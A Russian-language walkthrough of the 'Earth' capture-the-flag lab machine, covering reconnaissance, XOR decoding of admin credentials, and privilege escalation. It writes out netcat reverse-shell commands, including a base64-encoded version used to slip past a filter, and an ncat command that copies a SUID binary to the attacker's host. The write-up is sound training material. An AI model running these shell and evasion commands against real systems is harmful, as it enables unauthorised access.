Краткая информация
Earth — это виртуальная машина, предназначенная для новичков. Целью машины является отработка и развитие навыков у начинающих экспертов в области безопасности. Учебная машина является частью серии машин "The planets", разработанной SirFlash. Она отлично подходит для новичков.
Прохождение
Прохождение начинается с разведки. Я знаю IP адрес своей виртуальной машины Kali Linux (его можно узнать с помощью команды "ifconfig eth0"). Мой IP адрес: 10.0.2.6
С помощью команды "sudo netdiscover -r 10.0.2.6" я узнал обо всех устройствах в моей сети (уязвимая машина должна быть в одной сети с машиной атакующего, а то ничего не получится).

Мое внимание привлекли два последних Ip адреса, так как они расположены в виртуальной среде, как и уязвимая машина. Проанализировав, все устройства моего Virtual Box, я понял, что Ip адрес цели: 10.0.2.13
Я знаю IP адрес цели и могу перейти к сканированию. Для начала найдем все открытые порты, для этой цели использую nmap (далее я предполагаю, что читатель знаком с базовыми инструментами для проведения пентеста).
Использую команду "sudo nmap -sV -vvv -p- -O -oA FirstNmapScan 10.0.2.13" и получаю результат:

Исходя из работы nmap, я делаю следующие выводы:
- MAC адрес: 08:00:27:23:63:BC (Oracle VirtualBox virtual NIC) ;
- ОС цели: Linux 4.15 - 5.8, Fedora;
-
Открытые порты и их службы:
- 22/tcp ssh OpenSSH 8.6 (protocol 2.0) ;
- 80/tcp http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9);
- 443/tcp ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9).
-
Работающие приложения:
- Python 3.9;
- Apache httpd 2.4.51;
- ssh.
Далее я решил проверить, какие службы запущены на открытых портах. Я пробовал запустить их в firefox:
Порт 80 выдал мне веб-сайт с ошибкой:

Порт 443 выдал тестовую страницу сервера:

Анализ исходного кода полезных данных не дал, файл "robots.txt" отсутствует.
Такие инструменты, как goubester, ffuf, dirb скрытых директорий не нашли.В надежде найти хоть какие-то полезные данные
я запустил дополнительное сканирование nmap, но полезной информации не получил.Пока ждал конца сканирования, решил взглярнуть на сертификаты на странице
"https://10.0.2.13:443" и кое что нашел:

Да, это целых две страницы!!!Моим следующим шагом было добавление найденых доменов в файл "/etc/hosts":

Самое время зайти на страницы:


Перехожу к анализу веб-страниц:
- Страница "http://earth.local/":
- Исходный код подсказок не дал;
- Файл "robots.txt" отсутствует;
- Найдена директория "admin" (использую инструмент ffuf и словарь seclists/Discovery/Web-content/discovery-list-2.3-medium.txt).

- Страница "https://terratest.earth.local/":
- Исходный код подсказок не дал;
- Поиск директорий провалился;
- Файл "robots.txt" присутвсвует:

- C помощью файла "testingnotes.txt", ссылка на который была в "robots.txt" я узнал много полезной информации:
- Имя админа - terra;
- Дополнительный файл - testdata.txt;
- Способ шифрования - XOR;
- Файл testdata.txt используется как ключ, согласно файлу.
Все это время я хотел посмотреть на эти символы внизу формы ввода на странице "http://earth.local".
У меня есть предполагаемый ключ.Захожу в CyberChef:


Комбинация "earthclimatechangebad4humans" повторяется и, возможно, является паролем. Пробую войти в административную панель под данными: terra -- earthclimatechangebad4humans.
Я получил доступ к административной панели и терминалу. Посидев и поизучав систему, понял, что пользователь, под которым я зашел, имеет крайне низкие права и привелегии. Попробую получить реверс шелл.
На своей машине я ввел команду "nc -nlvp 1234", в web-терминале - "nc 10.0.2.6 1234 -e /bin/bash". Потерпел неудачу, так как удаленные подключения запрещены.
В данной ситуации свмым логичным шагом будет кодировка команды. Используя онлайн-кодировщик, я закодировал команду "nc 10.0.2.6 1234 -e /bin/bash" и усовершенствовал её.
Введя команду 'echo "bmMgMTAuMC4yLjYgMTIzNCAtZSAvYmluL2Jhc2g=" | base64 -d | bash' в web-терминал, я получил реверс шелл:

Далее я изучаю систему и перехожу и повышению привелегий.
- Полученные данные:
- История пуста;
- История bash не записывалась;
- Я не могу использовать команду sudo;
- SUID биты: 
Я хочу поэксперементировать с этим файлом на своей машине, поэтому перебрасываю его, используя команду "ncat 10.0.2.6 < /usr/bin/reset_root". На своей машине я анализирую файл с помощью библиотеки ltrace: 
На целевой машине нет нужных триггеров. Я добавлю их вручную (в роли триггеров выступают директории). После добавления триггеров я получаю пароль от root:

Воспользовавшись утилитой find я нашел флаги: 